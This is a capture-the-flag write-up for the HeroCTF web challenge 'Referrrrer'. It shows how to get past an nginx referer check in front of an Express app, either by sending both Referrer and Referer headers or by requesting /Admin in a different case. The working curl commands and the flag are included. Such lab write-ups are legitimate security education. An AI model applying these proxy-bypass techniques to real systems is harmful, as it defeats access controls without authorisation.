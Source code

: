 # Referrrrer [193 solves] [50 points]

This challenge is running nodejs behind nginx

index.js :
```
const express = require("express")
const app = express()


app.get("/", (req, res) => {
    res.send("Hello World!");
})

app.get("/admin", (req, res) => {
    if (req.header("referer") === "YOU_SHOUD_NOT_PASS!") {
        return res.send(process.env.FLAG);
    }

    res.send("Wrong header!");
})

app.listen(3000, () => {
    console.log("App listening on port 3000");
})
```

So to get to flag, we have to make a GET request to /admin with the referer header as "YOU_SHOUD_NOT_PASS!"

nginx.conf :
```
worker_processes auto;

events {
    worker_connections 128;
}

http {
    charset utf-8;

    access_log /dev/stdout;
    error_log /dev/stdout;

    upstream express_app {
        server app:3000;
    }

    server {
        listen 80;
        server_name example.com;

        location / {
            proxy_pass http://express_app;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
        }

        location /admin {
            if ($http_referer !~* "^https://admin\.internal\.com") {
                return 403;
            }

            proxy_pass http://express_app;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
        }
    }
}
```

However in nginx.conf, it will return 403 error if our referer header is not starting with "https://admin.internal.com"

So in order to get the flag, we have to find some ways that nginx and nodejs parse the referer header differently, or some ways that satisfy both of the requirements

I tried to use some ways like capital letters and small letters for the header, however they didn't work

Reading the expressjs code :
https://github.com/expressjs/express/blob/master/lib/request.js#L40-L84

```
 * The `Referrer` header field is special-cased,
 * both `Referrer` and `Referer` are interchangeable.
```

It mentioned that `Referrer` and `Referer` are interchangable

Maybe we can set 'Referrer' to "YOU_SHOUD_NOT_PASS!" and 'Referer' to "https://admin.internal.com"

```
$ curl -i -H 'Referrer: YOU_SHOUD_NOT_PASS!' -H 'Referer: https://admin.internal.com' http://static-01.heroctf.fr:7000/admin
HTTP/1.1 200 OK
Server: nginx/1.24.0
Date: Sun, 14 May 2023 12:42:02 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 38
Connection: keep-alive
X-Powered-By: Express
ETag: W/"26-Cj1P1GdO8Vke/DfJFC3B2cH95nw"

Hero{ba7b97ae00a760b44cc8c761e6d4535b}$
$
```

It worked and we got the flag

Also, there's another way to solve this, I can make a request to /Admin with a capital letter 'A', and it can bypass nginx's check, but nodejs still see it as /admin :

```
$ curl -i -H 'Referrer: YOU_SHOUD_NOT_PASS!' http://static-01.heroctf.fr:7000/Admin

HTTP/1.1 200 OK
Server: nginx/1.24.0
Date: Sun, 14 May 2023 13:23:11 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 38
Connection: keep-alive
X-Powered-By: Express
ETag: W/"26-Cj1P1GdO8Vke/DfJFC3B2cH95nw"

Hero{ba7b97ae00a760b44cc8c761e6d4535b}
```